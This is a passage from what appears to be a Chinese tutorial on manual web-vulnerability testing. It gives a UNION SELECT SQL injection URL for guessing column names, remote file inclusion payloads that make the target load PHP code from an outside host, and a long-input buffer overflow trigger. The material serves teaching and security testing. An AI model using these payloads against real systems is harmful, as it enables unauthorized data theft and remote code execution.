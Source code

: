 有了这些以后,如果对方系统管理员忽略了这些,则可以达到我们不需要猜测表名而直接获取数据库表名的结果.我在本地测试时一切OK

猜测列名:

```
http://website/index1.php?id=1 and 1=1 union select username,2,3,4 from user where 1=2
```

按照这个规则依次类推,如果我们猜测到user表存在username字段,则程序执行是正常的,否则程序会出错,也可以使用where 1=1来打印表的信息,通过这样的办法就可以获取mysql数据库的某些关键表的字段信息,如:admin与password

C: 文件包含漏洞

文件包含漏洞的测试,有以下几个比较简单且有效的办法.

1: 新建一个简单的php代码,如:`<? phpinfo(); ?>`,保存为*.txt格式

2: 新建一个简单的php代码,如:`<? phpinfo(); ?>`,保存为无后缀格式

然后我们测试时只需要采取下面简单的办法即可,这里我们假设我们下面的文件URL为:

```
http://bbs.cciss.cn/include.txt
http://bbs.cciss.cn/include
```

漏洞规则:

```
http://website/file.php?inc=http://bbs.cciss.cn/include.txt
http://website/file.php?inc=http://bbs.cciss.cn/include.txt?
http://website/file.php?inc=http://bbs.cciss.cn/include?
http://website/file.php?inc=http://bbs.cciss.cn/include
```

使用上面的简单规则即可实现文件包含漏洞的测试,当然得根据具体的返回信息来判断.

例如从XSS漏洞的检测规则可能会发现包含文件漏洞

如果我们知道PHP的某个函数存在缓冲区溢出,我们假设这个PHP的内置函数为`phphtml(char *str)`,那么我们如何利用这样的漏洞呢?

我们假设[http://website/file.php?inc=test](http://website/file.php?inc=test),这里的参数inc经过PHP代码时使用了phphtml内置函数,则可以使用下面的办法来触发漏洞

```
http://website/file.php?inc=11111111111....n(n为触发漏洞的最大字符数)
```

当然类似这样的漏洞是需要写程序来自动运行的,然后来触发溢出并执行shellcode.但这里也存在一个问题,即一般情况下,类似PHP本身的溢出漏洞的利用是有些难度存在的.

## 总结

针对WEB漏洞的挖掘,规则有N多,其中还有很多变种的规则.这里说的基本上是一些可以简单采取手工办法测试的规则,更多的规则是依靠经验不断积累所致

本文比较简单,也没有什么技术含量,只是看到xfocus上介绍WEB漏洞的文章较少,所以才想到提交下,希望对大家有所帮助.